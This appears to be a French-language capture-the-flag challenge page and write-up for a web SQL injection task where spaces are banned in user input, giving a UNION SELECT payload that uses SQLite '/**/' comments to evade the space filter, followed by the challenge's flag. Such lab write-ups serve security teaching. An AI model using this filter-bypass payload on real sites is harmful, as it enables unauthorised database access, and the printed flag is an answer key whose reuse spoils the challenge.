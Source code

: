 # SQL injection 9

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Bon, j'ai menti, ce n'était pas le dernier défi d'injection SQL. Le propriétaire du site web est vraiment tanné de se faire voler tous ses flags. Il reste un flag dans la colonne `flag` de la table `flag`, mais le propriétaire du site a interdit les espaces dans les champs d'input de l'utilisateur. En d'autres mots, votre injection SQL ne sera pas exécutée si elle contient des espaces. 

Maintenant que les espaces sont interdites, pouvez-vous trouver un moyen de quand même effectuer une injection SQL?

Bon succès!

## Setup

Requirements:
- BurpSuite

# Writeup

Il faut trouver un moyen d'avoir des espaces sans en utiliser. Avec SQLite, on peut insérer des espaces en utilisant `/**/` dans une requête. 

`"/**/union/**/select/**/1,2,flag/**/from/**/flag--`

On aura le flag: `FLAG-8f9f741bb17cc4176c357d6028c4aa70c994bc75welld0nehacker`
